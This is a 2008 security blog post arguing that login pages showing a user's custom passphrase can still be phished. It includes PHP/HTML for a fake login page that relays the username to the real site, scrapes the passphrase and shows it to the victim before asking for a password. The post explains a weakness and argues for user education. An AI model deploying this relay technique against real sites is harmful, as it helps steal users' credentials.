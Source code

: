 ```yaml
---
author: aaron
comments: true
date: 2008-11-20 22:27:25+00:00
layout: post
slug: how-custom-passphrasespictures-still-dont-protect-against-phishing
title: How custom passphrases/pictures still don't protect against phishing
wordpress_id: 271
categories:
- security
tags:
- security
---
```


As you probably remember, I have lots of interest in phishing techniques (I talked about one [here](/blog/2007/07/11/the-anatomy-of-a-phishing-attack-advanced-technique/), and preventing them [here](/blog/2007/07/11/the-top-17-ways-to-help-eliminate-the-phishing-threat/)).  I've noticed a new trend: a dual stage login form with a custom picture or passphrase.  Users are to gain trust in the login page because their custom configured option is displayed.  The more I started thinking about this, however, I kept seeing an issue - this still can be easily phished!  I'm going to demonstrate a method of phishing the passphrase version.  I don't want to do a picture example because it a) takes more code and b) more people have moved to that thinking it is more secure.  Lets go:


First off, all phishing starts with getting the user to a login page not at the respected domain.  So, lets just skip that step, and examine our login page.  This will be a duplicate of our real site's login page - note the reminder that they will have to verify their passphrase.

**login.php** @ fakedomain.com

    
    
    <form action="login2.php" method="post">
        <label>Username: <input name="username"></input><br></br>
        <em>Remember, you will be asked to verify your passphrase on the next page.</em><br></br>
        <input type="submit" value="Login"></input>
    </form>
    



Very simple login which sends it to another page - hopefully named the same as the real domain's login page.

Lets look at the page we'll be submitting to:

**login2.php** @ fakedomain.com

    
    
        /** cutting out a lot of code - make sure its not empty, etc **/
        $args = array ('username'=>$_POST['username']);
        $uri = 'http://realdomain.com/login.do.php';
         $opts = array('http'=>array('method'=>'POST', 'header'=>'Content-Type: application/x-www-form-urlencoded', 'content'=>http_build_query($args)));
         $context = stream_context_create($opts);
        $page_with_phrase = file_get_contents($uri, false, $context);
    
        $doc = new DomDocument();
        $doc->loadHTML($page_with_phrase );
    
        $passphrase = $doc->getElementById('passphrase_node')->nodeValue;
    
        /** next login form page actually shows the $passphrase phrase and asks for password **/
        include('next_login_form.php');
    



Ok, first off, you'll see we create a nice post with our stream context creation ([detailed here](/blog/2008/11/14/posting-requests-in-php-without-curl/)) - so we basically send the username to the real domain as they had logged in.  (Depending on the target site, you might also have to send referrers, cookies, etc - but we're making it a really simple example here.)

We retrieve the page after a successful post of the username.  This content should now contain the custom passphrase somewhere.  For our example, there is a nicely named div or span with an id of 'passphrase_node'.  Probably, in real life, you'd have to use a complex xpath to get the actual value.

From then on, we just include our 'second' login page which shows the passphrase, and then requests the password from the user.  From there, you can do whatever you want.

**Ok so...**
Its nice to see that people are trying to eliminate phishing - but there still is only one real solution IMHO - and that is to educate users on the address bar (or get them to install a plugin that validates the page they're on.).
